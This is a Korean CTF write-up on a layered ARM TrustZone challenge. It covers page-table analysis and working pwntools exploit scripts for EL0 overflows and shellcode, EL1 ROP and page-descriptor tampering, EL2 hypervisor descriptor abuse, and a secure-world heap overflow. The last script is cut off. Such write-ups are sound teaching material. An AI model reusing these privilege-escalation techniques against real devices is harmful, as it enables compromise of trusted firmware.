- **TTBCR**: 0x80802504; EAE=1, EPD=1, SHO=0b10, ORGN0=0b01, IRGN0=0b01, T0SZ=0b100
- **TTBR0**: 0xE44000 ->
	- 0x00: 0…
	- 0x08: 0xE4D003 ->
		- 0x00: 0x900060F
		- 0x01: 0…
	- 0x09: 0…
	- 0x40: 0xE85003
		- 0x000: 0xE40068F
		- 0x001: 0xE40168F
		- 0x002: 0xE40268F
		- 0x003: 0x2000000E40360F
		- …
		- 0x087: 0x2000000E48760F
		- 0x088: 0xE48860F
		- 0x089: 0xE48960F
		- …
		- 0x1FF: 0xE5FF60F
	- 0x41: 0…  
	- 0x7F: 0xEC4003 ->
		- 0x00: 0x2000000008768F
		- 0x01: 0x2000000008868F
		- …
		- 0x10: 0x2000000009768F
		- 0x11: 0…
	- 0x80: 0…

위 값들을 해석하면 다음과 같다:

- **TTBR0**: 0xE44000 ->
	- 0x00: 0…
	- 0x08: 0xE4D003 ->
		- 0x00: 0x900060F
			- AttrIndx[2:0] = 0b011
				- Use MAIR0
			- AP[2:1] = 0b00; Read/write, only at PL1
			- AF = 1
			- SH[1:0] = 0b10; Outer Shareable
			- IA = `0x1000000` `((0x08<<21)+(0x00<<12))`
			- OA = `0x9000000`
		- 0x01: 0…
	- 0x09: 0…
	- 0x40: 0xE85003
		- 0x000: 0xE40068F ~ 0x002: 0xE40268F
			- AttrIndx[2:0] = 0b011
				- Use MAIR0
			- AP[2:1] = 0b10; Read-only, only at PL1
			- AF = 1
			- SH[1:0] = 0b10; Outer Shareable
			- IA = `0x800n000` `((0x40<<21)+(0x0n<<12))` (0x0 <= n < 0x3)
			- OA = `0xE40n000` (0x0<= n < 0x3)
		- 0x003: 0x2000000E40360F ~ 0x087: 0x2000000E48760F
			- AttrIndx[2:0] = 0b011
				- Use MAIR0
			- AP[2:1] = 0b00; Read/write, only at PL1
			- AF = 1
			- PXN = 1
			- SH[1:0] = 0b10; Outer Shareable
			- IA = `0x80nn000` `((0x40<<21)+(0xnn<<12))` (0x03 <= nn < 0x88)
			- OA = `0xE4nn000` (0x03<= n <= 0x88)
		- 0x088: 0xE48860F ~ 0x1FF: 0xE5FF60F
			- AttrIndx[2:0] = 0b011
				- Use MAIR0
			- AP[2:1] = 0b00; Read/write, only at PL1
			- AF = 1
			- SH[1:0] = 0b10; Outer Shareable
			- IA = `0x8nnn000` `((0x40<<21)+(0xnnn<<12))` (0x088 <= nnn < 0x200)
			- OA = `0xEnnn000` (0x488<= nnn < 0x600)
	- 0x41: 0…  
	- 0x7F: 0xEC4003 ->
		- 0x00: 0x2000000008768F ~ 0x10: 0x2000000009768F
			- AttrIndx[2:0] = 0b011
				- Use MAIR0
			- AP[2:1] = 0b10; Read-only, only at PL1
			- AF = 1
			- PXN = 1
			- SH[1:0] = 0b10; Outer Shareable
			- IA = `0xFEnn000` `((0x7F<<21)+(0xnn<<12))` (0x00 <= nn < 0x11)
			- OA = `0xnnn00` (0x870<= nnn < 0x980)
		- 0x11: 0…
	- 0x80: 0…

##### 레지스터 설정

별로 중요하지는 않지만 설정하는 레지스터는 다음과 같다:

- **PRRR**: 0xff440400; Not used because of TTBCR.EAE. Instead use MAIR0.
- **DACR**: 0x55555555; D0…D15=0b01
- **SCTLR**: I|=1, ITD|=1, C|=1, M|=1
- **CPACR**: ASEDIS|=0, CP11|=0b11, CP10|=0b11

##### Exception Handler 설정

AArch32 의 Exception Handler 는 AArch64 와는 다르게 각 핸들러당 하나의 `b <func>` 로 이루어져 있다.  
그리고 그 핸들러 중에서 Supervisor Exception Handler 는 SEL0 에서 svc 를 호출할 때 호출되며 Data Abort Exception Handler 는 적절하지 않은 범위에 접근할 때 호출된다. 또 중요한 Handler 는 SecureCall 을 처리하는 핸들러이다.

Supervisor Exception Handler 의 기능은 다음과 같다:

- `svc #0`: Return to normal world
- `svc #1`: IDK…
- `svc #2`: Allocate empty page
- `svc #3`: Free using page

SecureCall 의 기능은 다음과 같다:

- `SECURE_CALL_NUM = 0x83000003`: Register WSM
- `SECURE_CALL_NUM = 0x83000004`: Unregister WSM
- `SECURE_CALL_NUM = 0x83000005`: Init TrustLet
- `SECURE_CALL_NUM = 0x83000006`: TCI Call

#### SecureCall

하나씩 제대로 살펴보면 다음과 같다.

- `SECURE_CALL_NUM = 0x83000003`: Register WSM
	- 0x2000000 에서 0x2400000 까지의 SEL:VA 중에 비어있는 SEL:VA 와 주어진 PA 를 매핑시킨다.
	- 주어진 PA 는 NSEL:VA 와 매칭되어야 한다.
- `SECURE_CALL_NUM = 0x83000004`: Unregister WSM
	- 주어진 PA 에 맞는 VA 를 할당 해제한다.
- `SECURE_CALL_NUM = 0x83000005`: Init TrustLet
	- 주어진 WSM 에 존재하는 TrustLet 을 VA `0x1000 (code)`, `0x2000 (data)`, `0x100000 (data)`, `0xFF8000 (?)` 에 로드한다.
		- va = 0x1000, size = 0x1000, prot = 0b1010; NS=0, PXN=1, XN=0, UnprivilegedAccess=1, RO=0
		- va = 0x2000, size = 0x1000, prot = 0b1110; NS=0, PXN=1, XN=1, UnprivilegedAccess=1, RO=0
		- va = 0x100000, size = 0x82000, prot = 0b1110; NS=0, PXN=1, XN=1, UnprivilegedAccess=1, RO=0
		- va = 0xFF8000, size = 0x8000, prot = 0b1110; NS=0, PXN=1, XN=1, UnprivilegedAccess=1, RO=0
	- 이 때 사용하는 모든 Page 정보와 Code 등은 전부 NS 에서 WSM 를 통해 전달하며 S.EL1 에서는 그 trustlet 의 무결성을 전달한다.
	- 그리고 이 때 trustlet 의 entrypoint 도 설정한다.
- `SECURE_CALL_NUM = 0x83000006`: TCI Call
	- 로드한 trustlet 의 함수를 호출한다.

#### Trustlet

Trustlet 의 메인 로직은 `SEL0_VA:0x126A` 에 존재한다. 여기서는 TCI struct 의 cmd 에 맞는 동작을 수행한다.  
여기서 수행하는 동작은 load_key 와 save_key 가 있다.

## Exploit

### NS.EL0

#### 익스 방법 1

##### 설명

`main` 함수에서 `load_trustlet` 함수를 통해 TrustedApplication 과 소통을 할 수 있게 초기화한다. 그리고 `cmdtb` 라는 함수 포인터를 초기화한다.  

`run` 함수를 통해 실질적인 동작을 수행하는데 이 함수에서는 `scanf` 를 통해 유저에게 입력을 받는다. `scanf` 는 `gets(input)` 를 호출한다. 이때 `input` 다음에 `cmdtb` 가 존재하므로 BoF 를 통해 `cmdtb` 를 변조할 수 있다.

##### 플래그 얻기

NS.EL0 에는 `print_flag` 라는 함수가 존재한다. `cmdtb` 를 변조하여 이 함수를 호출하면 된다.

##### exploit.py

```python
from pwn import *

# context.log_level = "debug"
context.arch = "aarch64"
context.bits = 64

def load_key(idx: int):
    p.sendlineafter(b"cmd> ", b"0")
    p.sendlineafter(b"index: ", str(idx).encode())

def save_key(idx: int, key: bytes):
    p.sendlineafter(b"cmd> ", b"1")
    p.sendlineafter(b"index: ", str(idx).encode())
    p.sendlineafter(b"key: ", key)

p = remote("localhost", 6666)
elf = ELF("./el0")

pl = b"a" * 0x100
pl += p64(elf.symbols["print_flag"])
pl += p64(elf.symbols["print_flag"])
save_key(1, pl)

p.recvuntil(b"Flag (EL0): ")
FLAG = p.recvline()
log.info(f"FLAG : {FLAG.decode()}")
```

#### 익스 방법 2

##### 설명

mprotect 를 통해 R-X 영역을 만들 수 있으므로 쉘코드를 실행할 수 있다. 이를 이용하여 처음에 할당된 BUF 영역에 쉘 코드를 쓰고 R-X 영역으로 만든 뒤에 임의 코드를 실행하여 플래그를 얻을 수 있다.

##### exploit.py

```python
from pwn import *

# context.log_level = "debug"
context.arch = "aarch64"
context.bits = 64
context.endian = "little"

DUMMY_VALUE = 0xDEAD_BEEF_CAFE_BEBE

EL0_STACK_LOW = 0x7FFF_7FFF_E000
EL0_SFP_IN_RUN = 0x7FFF_7FFF_FFA0

EL0_BUF = 0x7FFE_FFFF_D000
EL0_WSM = 0x7FFE_FFFF_E000

EL0_LDP_X29_X30_SP_RET = 0x0040_00FC
EL0_LDR_X19_LDP_X29_X30_SP_RET = 0x0040_0294
EL0_RET = 0x0040_0100


def make_shellcode(assembly: str) -> bytes:
    shellcode = asm(assembly)
    assert b"\n" not in shellcode
    return shellcode


def load_key(idx: int):
    p.sendlineafter(b"cmd> ", b"0")
    p.sendlineafter(b"index: ", str(idx).encode())


def save_key(idx: int, key: bytes):
    p.sendlineafter(b"cmd> ", b"1")
    p.sendlineafter(b"index: ", str(idx).encode())
    p.sendlineafter(b"key: ", key)


def el0_arbitrary_code_execute(assembly: str) -> None:
    pl = b"a" * 0x100
    pl += p64(elf.symbols["gets"])
    pl += p64(elf.symbols["gets"])
    save_key(1, pl)
    pl = b"a" * 0x120
    pl += make_shellcode(assembly)
    assert len(pl) <= 0x1000
    p.sendline(pl)

    pl = b"a" * (1 + 4)
    pl += b"\x00" * (0x100 - len(pl))
    pl += p64(elf.symbols["main"] + 0x44)
    pl += p64(elf.symbols["mprotect"])
    save_key(0x1000, pl)

    load_key(1)

    pl = b"a" * 0x100
    pl += p64(EL0_RET)
    pl += p64(elf.symbols["gets"])
    pl += p64(DUMMY_VALUE)
    pl += p64(EL0_SFP_IN_RUN - 0x30)
    save_key(1, pl)
    pl = p64(EL0_STACK_LOW + 0x100)
    pl += p64(EL0_BUF + 0x120)
    p.sendline(pl)


p = remote("localhost", 6666)
# p = process("../share/run.sh")
# p = process("../share/run_debug.sh")
elf = ELF("./el0")

el0_arbitrary_code_execute(
    f"""
    ldr x0, ={elf.symbols['print_flag']};\n
    blr x0;\n
    mov x0, #0;\n
    ldr x1, ={elf.symbols['exit']};\n
    blr x1;\n
    """
)

p.interactive()


p.recvuntil(b"Flag (EL0): ")
FLAG = p.recvline()
log.info(f"FLAG : {FLAG.decode()}")
```

### NS.EL1

EL0 에서 Arbitrary Code Execute 가 가능하므로 syscall 을 통해 EL1 의 취약점을 트리거 할 수 있다.  
EL1 의 취약점은 syscall handler 에서 read, write 를 처리하는 부분에 존재한다. read, write 를 하는 과정에서 읽기 또는 쓰기를 수행하는 주소의 권한 (EL0 인지 EL1 인지) 를 검증하지 않는다. 따라서 EL0 에서 read 와 write 를 통해 EL1 의 영역에 읽기 및 쓰기가 가능하다. 그러면 read 를 통해 EL1 의 스택을 바꿔 ROP 를 진행할 수 있다.

하지만 한번의 read 를 통해 바꿀 수 있는 값은 1 바이트이므로 return address 를 적절히 바꿔 ROP 가 가능하게 만들어야 한다. syscall handler 의 return address 는 `0xFFFFFFFFC000A830` 이고 1 바이트만 변경할 수 있으므로 사용할 수 있는 가젯은 제한된다.  
내가 찾은 가젯은 `0xffffffffc0009430: ldp    x19, x20, [sp, #0x10]; ldp    x29, x30, [sp], #0x20; ret;` 이다. 이 가젯을 통해 `0xFFFFFFFFC0019C00` 에 존재하는 값을 통해 ROP 를 할 수 있다.

#### Get Flag

ROP 를 통해 flag 를 출력해주는 함수를 호출하면 flag 를 얻을 수 있다.

```python
from pwn import *

# context.log_level = "debug"
context.arch = "aarch64"
context.bits = 64
context.endian = "little"

DUMMY_VALUE = 0xDEAD_BEEF_CAFE_BEBE

EL0_STACK_LOW = 0x7FFF_7FFF_E000
EL0_SFP_IN_RUN = 0x7FFF_7FFF_FFA0

EL0_BUF = 0x7FFE_FFFF_D000
EL0_WSM = 0x7FFE_FFFF_E000

EL0_LDP_X29_X30_SP_RET = 0x0040_00FC
EL0_LDR_X19_LDP_X29_X30_SP_RET = 0x0040_0294
EL0_RET = 0x0040_0100


def make_shellcode(assembly: str) -> bytes:
    shellcode = asm(assembly)
    assert b"\n" not in shellcode
    return shellcode


def load_key(idx: int):
    p.sendlineafter(b"cmd> ", b"0")
    p.sendlineafter(b"index: ", str(idx).encode())


def save_key(idx: int, key: bytes):
    p.sendlineafter(b"cmd> ", b"1")
    p.sendlineafter(b"index: ", str(idx).encode())
    p.sendlineafter(b"key: ", key)


def el0_arbitrary_code_execute(assembly: str) -> None:
    pl = b"a" * 0x100
    pl += p64(el0_elf.symbols["gets"])
    pl += p64(el0_elf.symbols["gets"])
    save_key(1, pl)
    pl = b"a" * 0x120
    pl += make_shellcode(assembly)
    assert len(pl) <= 0x1000
    p.sendline(pl)

    pl = b"a" * (1 + 4)
    pl += b"\x00" * (0x100 - len(pl))
    pl += p64(el0_elf.symbols["main"] + 0x44)
    pl += p64(el0_elf.symbols["mprotect"])
    save_key(0x1000, pl)

    load_key(1)

    pl = b"a" * 0x100
    pl += p64(EL0_RET)
    pl += p64(el0_elf.symbols["gets"])
    pl += p64(DUMMY_VALUE)
    pl += p64(EL0_SFP_IN_RUN - 0x30)
    save_key(1, pl)
    pl = p64(EL0_STACK_LOW + 0x100)
    pl += p64(EL0_BUF + 0x120)
    p.sendline(pl)


def el1_return_oriented_programming(
    rop_chain: list[int], el0_additional_assembly: str = ""
) -> None:
    ROP_CHAIN_ADDR = 0xFFFFFFFFC0019C00
    EL1_SYSCALL_HANDLER_RET_ADDR = 0xFFFFFFFFC0019BB8

    rop_chain = b"".join([p64(gadget) for gadget in rop_chain])
    assert b"\n" not in rop_chain and len(rop_chain) <= 0x420

    el0_arbitrary_code_execute(
        f"""  
        mov x22, xzr;\n
        ldr x23, ={len(rop_chain)};\n
        ldr x24, ={ROP_CHAIN_ADDR};\n
        read_rop_chain:
            mov x0, 0;\n
            add x1, x24, x22;\n
            mov x2, 1;\n
            ldr x5, ={el0_elf.symbols['read']};\n
            blr x5;\n
            
            add x22, x22, 1;\n
            cmp x22, x23;\n
            b.lt read_rop_chain
        
        mov x0, 0;\n
        ldr x1, ={hex(EL1_SYSCALL_HANDLER_RET_ADDR+1)};\n
        mov x2, 1;\n
        ldr x5, ={el0_elf.symbols['read']};\n
        blr x5;\n
        """
        + el0_additional_assembly
    )
    p.send(rop_chain)
    p.send(b"\x94")


p = remote("localhost", 6666)
# p = process("../share/run.sh")
# p = process("../share/run_debug.sh")
el0_elf = ELF("./el0")

EL1_PRINT_FLAG = 0xFFFFFFFFC0008408
chain = [0, EL1_PRINT_FLAG]
el1_return_oriented_programming(chain)

p.recvuntil(b"Flag (EL1): ")
FLAG = p.recvline()[:-1]
print(f"Flag: {FLAG.decode()}")
```

#### Arbitrary Code Execute

EL1 에서의 임의 코드 실행은 Page Table 을 변경하여 수행할 수 있다. EL1 에서의 `TTBR0_EL1` 과 `TTBR1_EL1` 은 각각 `0x20000` 와 `0x1B000` 로 설정되어 있다. 또한 이 주소 값은 `PA:0x40020000` 와 `PA:0x4001B000` 과 같다.

다음 그림을 보면 알 수 있듯 `PA:0x400nn000` 은 `EL1:0xFFFF_FFFF_C00n_n000` 과 매핑되어 있다는 것을 알 수 있다. 그러면 상기한 read 의 취약점을 이용해서 `TTBRn_EL1` 에 있는 Page Descriptor 들을 바꿀 수 있다.  


Page Descriptor 를 변경할 수 있으므로 UXN, PXN 이 모두 해제된 페이지를 만들 수 있다. 다만 RWX 영역은 EL2 에서 방지하므로 EL1 에서 mmap 으로 RW- 영역을 만들고 원하는 쉘 코드를 작성한 뒤 R-X 로 변경한 뒤에 Page Descriptor 를 변경해야 한다.

```python
from pwn import *

# context.log_level = "debug"
context.arch = "aarch64"
context.bits = 64
context.endian = "little"

DUMMY_VALUE = 0xDEAD_BEEF_CAFE_BEBE

EL0_STACK_LOW = 0x7FFF_7FFF_E000
EL0_SFP_IN_RUN = 0x7FFF_7FFF_FFA0

EL0_BUF = 0x7FFE_FFFF_D000
EL0_WSM = 0x7FFE_FFFF_E000

EL0_LDP_X29_X30_SP_RET = 0x0040_00FC
EL0_LDR_X19_LDP_X29_X30_SP_RET = 0x0040_0294
EL0_RET = 0x0040_0100


def make_shellcode(assembly: str) -> bytes:
    shellcode = asm(assembly)
    assert b"\n" not in shellcode
    return shellcode


def load_key(idx: int):
    p.sendlineafter(b"cmd> ", b"0")
    p.sendlineafter(b"index: ", str(idx).encode())


def save_key(idx: int, key: bytes):
    p.sendlineafter(b"cmd> ", b"1")
    p.sendlineafter(b"index: ", str(idx).encode())
    p.sendlineafter(b"key: ", key)


def el0_arbitrary_code_execute(assembly: str) -> None:
    pl = b"a" * 0x100
    pl += p64(el0_elf.symbols["gets"])
    pl += p64(el0_elf.symbols["gets"])
    save_key(1, pl)
    pl = b"a" * 0x120
    pl += make_shellcode(assembly)
    assert len(pl) <= 0x1000
    p.sendline(pl)

    pl = b"a" * (1 + 4)
    pl += b"\x00" * (0x100 - len(pl))
    pl += p64(el0_elf.symbols["main"] + 0x44)
    pl += p64(el0_elf.symbols["mprotect"])
    save_key(0x1000, pl)

    load_key(1)

    pl = b"a" * 0x100
    pl += p64(EL0_RET)
    pl += p64(el0_elf.symbols["gets"])
    pl += p64(DUMMY_VALUE)
    pl += p64(EL0_SFP_IN_RUN - 0x30)
    save_key(1, pl)
    pl = p64(EL0_STACK_LOW + 0x100)
    pl += p64(EL0_BUF + 0x120)
    p.sendline(pl)


def el1_return_oriented_programming(
    rop_chain: list[int],
    el0_head_assembly: str = "",
    head_input: bytes = b"",
    el0_tail_assembly: str = "",
    tail_input: bytes = b"",
) -> None:
    ROP_CHAIN_ADDR = 0xFFFFFFFFC0019C00
    EL1_SYSCALL_HANDLER_RET_ADDR = 0xFFFFFFFFC0019BB8

    rop_chain = rop_chain[:2] + [0] * 2 + rop_chain[2:]
    rop_chain = b"".join([p64(gadget) for gadget in rop_chain])
    assert b"\n" not in rop_chain and len(rop_chain) <= 0x420

    el0_arbitrary_code_execute(
        el0_head_assembly
        + f"""  
        mov x22, xzr;\n
        ldr x23, ={len(rop_chain)};\n
        ldr x24, ={ROP_CHAIN_ADDR};\n
        read_rop_chain:
            mov x0, 0;\n
            add x1, x24, x22;\n
            mov x2, 1;\n
            ldr x5, ={el0_elf.symbols['read']};\n
            blr x5;\n
            
            add x22, x22, 1;\n
            cmp x22, x23;\n
            b.lt read_rop_chain
        
        mov x0, 0;\n
        ldr x1, ={hex(EL1_SYSCALL_HANDLER_RET_ADDR+1)};\n
        mov x2, 1;\n
        ldr x5, ={el0_elf.symbols['read']};\n
        blr x5;\n
        """
        + el0_tail_assembly
    )
    p.send(head_input)
    p.send(rop_chain)
    p.send(b"\x94")
    p.send(tail_input)


def el1_arbitrary_code_execute(assembly: str) -> None:
    NEW_MAP_ADDR = 0x7FFEFFFFB000
    DESCRIPTOR_TABLE_ADDR_OF_NEW_MAP = 0xFFFFFFFFC0028FD8
    chain = [0, NEW_MAP_ADDR]
    el1_return_oriented_programming(
        rop_chain=chain,
        el0_head_assembly=f"""
            mov x0, #0;\n
            ldr x1, ={hex(0x1000)};\n
            mov x2, #3;\n
            mov x3, xzr;\n
            mov x4, xzr;\n
            mov x5, #0xFFFFFFFFFFFFFFFF;\n
            ldr x6, ={el0_elf.symbols['mmap']};\n
            blr x6;\n
            
            mov x20, x0;\n
            
            ldr x6, ={el0_elf.symbols['gets']};\n
            blr x6;\n
            
            mov x0, x20;\n
            ldr x1, ={hex(0x1000)};\n
            mov x2, #5;\n
            ldr x6, ={el0_elf.symbols['mprotect']};\n
            blr x6;\n
            
            mov x0, 0;\n
            ldr x1, ={hex(DESCRIPTOR_TABLE_ADDR_OF_NEW_MAP+6)};\n
            mov x2, 1;\n
            ldr x5, ={el0_elf.symbols['read']};\n
            blr x5;\n
            
            add x22, x22, 1;\n
            cmp x22, x23;\n
            b.lt read_rop_chain
        """,  # this mmap allocate NEW_MAP_ADDR(0x7ffeffffb000)-0x36000
        head_input=make_shellcode(assembly) + b"\n" + b"\x00",
    )


p = remote("localhost", 6666)
# p = process("../share/run.sh")
# p = process("../share/run_debug.sh")
el0_elf = ELF("./el0")

EL1_PRINT_FLAG = 0xFFFFFFFFC0008408
EL1_EXIT = 0xFFFFFFFFC00091A4
el1_arbitrary_code_execute(
    f"""
    ldr x2, ={hex(EL1_PRINT_FLAG)};\n
    blr x2;\n
    
    ldr x2, ={hex(EL1_EXIT)};\n
    blr x2;\n
    """
)

p.recvuntil(b"Flag (EL1): ")
FLAG = p.recvline()[:-1]
print(f"Flag: {FLAG.decode()}")
```

### NS.EL2

EL2 부터는 플래그를 출력해주는 함수가 없으므로 Arbitrary Code Execute 만을 서술한다.  
EL2 의 취약점은 hvc 에서 IPA 의 Page Descriptor 설정하는데 존재한다. descriptor 를 설정할 때 ipa 의 범위는 검증하지만, descriptor 의 범위는 검증하지 않는다. 그리고 ipa 의 하위 바이트를 검증하지 않으므로 RWX 영역을 만들 수 있다.

```python
from pwn import *

# context.log_level = "debug"
context.arch = "aarch64"
context.bits = 64
context.endian = "little"

DUMMY_VALUE = 0xDEAD_BEEF_CAFE_BEBE

EL0_STACK_LOW = 0x7FFF_7FFF_E000
EL0_SFP_IN_RUN = 0x7FFF_7FFF_FFA0

EL0_BUF = 0x7FFE_FFFF_D000
EL0_WSM = 0x7FFE_FFFF_E000

EL0_LDP_X29_X30_SP_RET = 0x0040_00FC
EL0_LDR_X19_LDP_X29_X30_SP_RET = 0x0040_0294
EL0_RET = 0x0040_0100


def make_shellcode(assembly: str) -> bytes:
    shellcode = asm(assembly)
    assert b"\n" not in shellcode
    return shellcode


def load_key(idx: int):
    p.sendlineafter(b"cmd> ", b"0")
    p.sendlineafter(b"index: ", str(idx).encode())


def save_key(idx: int, key: bytes):
    p.sendlineafter(b"cmd> ", b"1")
    p.sendlineafter(b"index: ", str(idx).encode())
    p.sendlineafter(b"key: ", key)


def el0_arbitrary_code_execute(assembly: str) -> None:
    pl = b"a" * 0x100
    pl += p64(el0_elf.symbols["gets"])
    pl += p64(el0_elf.symbols["gets"])
    save_key(1, pl)
    pl = b"a" * 0x120
    pl += make_shellcode(assembly)
    assert len(pl) <= 0x1000
    p.sendline(pl)

    pl = b"a" * (1 + 4)
    pl += b"\x00" * (0x100 - len(pl))
    pl += p64(el0_elf.symbols["main"] + 0x44)
    pl += p64(el0_elf.symbols["mprotect"])
    save_key(0x1000, pl)

    load_key(1)

    pl = b"a" * 0x100
    pl += p64(EL0_RET)
    pl += p64(el0_elf.symbols["gets"])
    pl += p64(DUMMY_VALUE)
    pl += p64(EL0_SFP_IN_RUN - 0x30)
    save_key(1, pl)
    pl = p64(EL0_STACK_LOW + 0x100)
    pl += p64(EL0_BUF + 0x120)
    p.sendline(pl)


def el1_return_oriented_programming(
    rop_chain: list[int],
    el0_head_assembly: str = "",
    head_input: bytes = b"",
    el0_tail_assembly: str = "",
    tail_input: bytes = b"",
) -> None:
    ROP_CHAIN_ADDR = 0xFFFFFFFFC0019C00
    EL1_SYSCALL_HANDLER_RET_ADDR = 0xFFFFFFFFC0019BB8

    rop_chain = rop_chain[:2] + [0] * 2 + rop_chain[2:]
    rop_chain = b"".join([p64(gadget) for gadget in rop_chain])
    assert b"\n" not in rop_chain and len(rop_chain) <= 0x420

    el0_arbitrary_code_execute(
        el0_head_assembly
        + f"""  
        mov x22, xzr;\n
        ldr x23, ={len(rop_chain)};\n
        ldr x24, ={ROP_CHAIN_ADDR};\n
        read_rop_chain:
            mov x0, 0;\n
            add x1, x24, x22;\n
            mov x2, 1;\n
            ldr x5, ={el0_elf.symbols['read']};\n
            blr x5;\n
            
            add x22, x22, 1;\n
            cmp x22, x23;\n
            b.lt read_rop_chain
        
        mov x0, 0;\n
        ldr x1, ={hex(EL1_SYSCALL_HANDLER_RET_ADDR+1)};\n
        mov x2, 1;\n
        ldr x5, ={el0_elf.symbols['read']};\n
        blr x5;\n
        """
        + el0_tail_assembly
    )
    p.send(head_input)
    p.send(rop_chain)
    p.send(b"\x94")
    p.send(tail_input)


def el1_arbitrary_code_execute(assembly: str) -> None:
    NEW_PAGE_ADDR = 0x7FFEFFFFB000
    DESCRIPTOR_TABLE_ADDR_OF_NEW_PAGE = 0xFFFFFFFFC0028FD8
    chain = [0, NEW_PAGE_ADDR]
    el1_return_oriented_programming(
        rop_chain=chain,
        el0_head_assembly=f"""
            mov x0, #0;\n
            mov x1, 0x01000;\n
            mov x2, #3;\n
            mov x3, xzr;\n
            mov x4, xzr;\n
            mov x5, #0xFFFFFFFFFFFFFFFF;\n
            ldr x6, ={el0_elf.symbols['mmap']};\n
            blr x6;\n
            
            mov x20, x0;\n
            
            ldr x6, ={el0_elf.symbols['gets']};\n
            blr x6;\n
            
            mov x0, x20;\n
            mov x1, 0x01000;\n
            mov x2, #5;\n
            ldr x6, ={el0_elf.symbols['mprotect']};\n
            blr x6;\n
            
            mov x0, 0;\n
            ldr x1, ={hex(DESCRIPTOR_TABLE_ADDR_OF_NEW_PAGE+6)};\n
            mov x2, 1;\n
            ldr x5, ={el0_elf.symbols['read']};\n
            blr x5;\n
            
            add x22, x22, 1;\n
            cmp x22, x23;\n
            b.lt read_rop_chain
        """,  # this mmap allocate NEW_MAP_ADDR(0x7ffeffffb000)-0x36000
        head_input=make_shellcode(assembly) + b"\n" + b"\x00",
    )


def el2_arbitrary_code_execute(assembly_or_shellcode: str | bytes) -> None:
    EL1_GET_CHAR = 0xFFFFFFFFC0009AD8
    if isinstance(assembly_or_shellcode, str):
        shellcode = make_shellcode(assembly_or_shellcode)
    else:
        shellcode = assembly_or_shellcode
    assert b"\n" not in shellcode and len(shellcode) < (0x1000 - 0xC)

    VA = 0xFFFFFFFFC0002000
    EL2_RWX = VA + 0xC
    EL1_DESCRIPTOR_TABLE_ADDR = 0xFFFFFFFFC001E010
    EL1_DESCRIPTOR = 0x2443

    TARGET_IPA_DESCRIPTOR = 0x40102000 | 0x443 | 0x80
    IPA_DESCRIPTOR = 0x100000 | 0x443
    IPA = 0x2000 | 0x80
    assert TARGET_IPA_DESCRIPTOR == ((IPA + 0x40000000) | IPA_DESCRIPTOR)
    el1_arbitrary_code_execute(
        f"""
        ldr x0, ={hex(EL1_DESCRIPTOR_TABLE_ADDR)};\n
        mov x1, #{hex(EL1_DESCRIPTOR)};\n
        str x1, [x0];\n
        
        mov x0, #1;\n
        ldr x1, ={hex(IPA)};\n
        ldr x2, ={hex(IPA_DESCRIPTOR)};\n
        hvc 0;\n
        
        ldr x20, ={hex(EL2_RWX)};\n
        mov x21, xzr;\n
        mov x22, #{len(shellcode)};\n
        read_el2_shellcode:
            ldr x0, ={hex(EL1_GET_CHAR)};\n
            blr x0;\n
            strb w0, [x20, x21];\n
            add x21, x21, 1\n
            cmp x21, x22\n
            b.lt read_el2_shellcode;\n
        
        mov x0, #1;\n
        mov x1, #2;\n
        mov x2, #3;\n
        hvc 0;\n
        """
    )

    p.send(shellcode)


def make_print_flag_shellcode(
    print_function: int, buf: int | str = "sp"
) -> str:
    assem = ""
    if isinstance(buf, int):
        assem += f"ldr x0, ={hex(buf)};\n"
    else:
        assem += f"mov x0, {buf};\n"

    shellcode = b""
    shellcode += make_shellcode(assem)
    GET_FLAG = [
        0xD53BFC01,
        0xB9000001,
        0xD53BFC21,
        0xB9000401,
        0xD53BFC41,
        0xB9000801,
        0xD53BFC61,
        0xB9000C01,
        0xD53BFC81,
        0xB9001001,
        0xD53BFCA1,
        0xB9001401,
        0xD53BFCC1,
        0xB9001801,
        0xD53BFCE1,
        0xB9001C01,
    ]
    for x in GET_FLAG:
        shellcode += p32(x)

    assem = f"""
    ldr x5, ={hex(print_function)};\n
    blr x5;\n
    
    nop;\n
    """
    shellcode += make_shellcode(assem)

    return shellcode


p = remote("localhost", 6666)
# p = process("../share/run.sh")
# p = process("../share/run_debug.sh")
el0_elf = ELF("./el0")

EL2_PRINT_FUNCTION = 0x40101020
el2_arbitrary_code_execute(make_print_flag_shellcode(EL2_PRINT_FUNCTION))

FLAG = p.recvline()
print(f"Flag: {FLAG.decode()}")
```

### S.EL0

취약점은 save_key 의 custom malloc 에 존재한다.  
malloc 의 인자로 받는 size 의 align 을 맞추는 과정에서 size 에 더하기를 수행하지만, 그 결과를 검증하지 않아서 Integer Overflow 가 발생할 수 있다. 그러면 메모리 할당 후에 memcpy 를 하는 과정에서 Heap Overflow 가 발생할 수 있다.  
이 때 Data Abort 가 발생해도 아무런 문제가 발생하지 않기 때문에 편하게 익스를 할 수 있다.

custom heap도 free_list를 가지고 있고 fd를 통해 freed chunk를 연결하므로 Heap Overflow를 통해 free_list를 변조할 수 있다. 그리고 unlink를 통해 4byte aaw가 가능하다.

그리고 위에서 보면 알 수 있듯 SEL0의 Code 영역은 RWX 권한이다. 따라서 코드 영역을 변조하면 Arbitrary Code Execture를 할 수 있다.
```python
from pwn import *

# context.log_level = "debug"
context.arch = "aarch64"
context.bits = 64
context.endian = "little"

DUMMY_VALUE = 0xDEAD_BEEF_CAFE_BEBE

EL0_STACK_LOW = 0x7FFF_7FFF_E000
EL0_SFP_IN_RUN = 0x7FFF_7FFF_FFA0

EL0_BUF = 0x7FFE_FFFF_D000
EL0_WSM = 0x7FFE_FFFF_E000

EL0_LDP_X29_X30_SP_RET = 0x0040_00FC
EL0_LDR_X19_LDP_X29_X30_SP_RET = 0x0040_0294
EL0_RET = 0x0040_0100


def make_32_shellcode(assembly: str) -> bytes:
    context.arch = "arm"
    context.bits = 32
    context.endian = "little"
    shellcode = asm(assembly)
    assert b"\n" not in shellcode
    return shellcode


def make_thumb_shellcode(assembly: str) -> bytes:
    context.arch = "thumb"
    context.bits = 32
    context.endian = "little"
    shellcode = asm(assembly)
    assert b"\n" not in shellcode
    return shellcode


def make_64_shellcode(assembly: str) -> bytes:
    context.arch = "aarch64"
    context.bits = 64
    context.endian = "little"
    shellcode = asm(assembly)
    assert b"\n" not in shellcode
    return shellcode


def load_key(idx: int):
    p.sendlineafter(b"cmd> ", b"0")
    p.sendlineafter(b"index: ", str(idx).encode())


def save_key(idx: int, key: bytes):
    p.sendlineafter(b"cmd> ", b"1")
    p.sendlineafter(b"index: ", str(idx).encode())
    p.sendlineafter(b"key: ", key)


def el0_arbitrary_code_execute(assembly: str) -> None:
    pl = b"a" * 0x100
    pl += p64(elf.symbols["gets"])
